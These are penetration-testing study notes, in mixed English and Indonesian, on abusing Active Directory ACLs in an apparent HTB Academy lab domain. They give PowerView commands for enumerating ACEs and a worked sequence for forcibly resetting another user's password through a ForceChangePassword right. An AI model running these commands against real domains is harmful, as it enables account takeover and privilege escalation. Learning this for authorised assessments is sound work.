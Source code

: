 ```yaml
---
layout: default
---
```

# ACL - Enumeration &  Abuse

## Why are ACEs Important?

💡 Attackers utilize ACE entries to either further access or establish persistence. 
These can be great for us as penetration testers as many organizations are unaware of the ACEs applied to each object or the  impact that these can have if applied incorrectly. 
They cannot be  detected by vulnerability scanning tools, and often go unchecked for  many years, especially in large and complex environments. During an assessment where the client 
has taken care of all of the "low hanging fruit" AD flaws/misconfigurations, ACL abuse can be a great way for us to move laterally/vertically and even achieve full domain compromise. 
Some example Active Directory object security permissions are as follows. These can be enumerated (and visualized) using a tool such as BloodHound, and are all abusable with PowerView, among other tools:



```bash
	
ForceChangePassword:  abused with Set-DomainUserPassword
Add Members:  abused with Add-DomainGroupMember
GenericAll:  abused with Set-DomainUserPassword or Add-DomainGroupMember
GenericWrite:  abused with Set-DomainObject
WriteOwner:  abused with Set-DomainObjectOwner
WriteDACL:  abused with Add-DomainObjectACL
AllExtendedRights:  abused with Set-DomainUserPassword or Add-DomainGroupMember
Addself:  abused with Add-DomainGroupMember
```

## ACL Enumeration With Powerview

**Assume we have username wley as compromised user**

### ForceChangePassword
#### using Get-DomainObjectACL
````
Import-Module .\PowerView.ps1
$sid = Convert-NameToSid wley
Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}

##Vulnerable Output
ObjectDN               : CN=Dana Amundsen,OU=DevOps,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ObjectAceType          : 00299570-246d-11d0-a768-00aa006e0529

# ObjectAceType with above value meaning for Force-change-password
(https://learn.microsoft.com/id-id/windows/win32/adschema/r-user-force-change-password)
````


#### Using -ResolveGUIDs Flag
````Import-Module .\PowerView.ps1
$sid = Convert-NameToSid wley
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}

##output Yang Diharapkan
ObjectDN               : CN=Dana Amundsen,OU=DevOps,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : User-Force-Change-Password
````

#### Enumerate All User
````
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}

````

### Abusing Force Change Password
**changing wley password without knowing his old password**

1. Store Password user kita ke powershell credential
   
```powershell
   PS C:\htb> $SecPassword = ConvertTo-SecureString '<PASSWORD Kita >' -AsPlainText -Force
   PS C:\htb> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
```

3. Kemudian create password dari user target (eg disini user damundsen yang bisa kita ganti)
```powershell
PS C:\htb> $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```

#### Generic Write

```powershell
# Generic All Enumeration
$sid2 = Convert-NameToSid damundsen
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid2} -Verbose

AceType               : AccessAllowed
ObjectDN              : CN=Help Desk Level 1,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ListChildren, ReadProperty, GenericWrite
*Now we can see that our user damundsen has GenericWrite privileges over the Help Desk Level 1 group.

Untuk Cek Grup member : Get-DomainGroup -Identity "Help Desk Level 1" | select memberof

Investigasi Group yang bisa di exploit generic write, dalam kasus ini grup help desk level 1.
yang mana grup help desk level 1 ini di bawah grup Information Technology
Artinya, jika kita exploit, kita jadi member di Information Technology Juga. Jadi check privileges dari grup Information teknologi bisa ngapain

Enumerate Otomatis Pake bloodhound aja, Baca di HTB Academy Section ACL

```
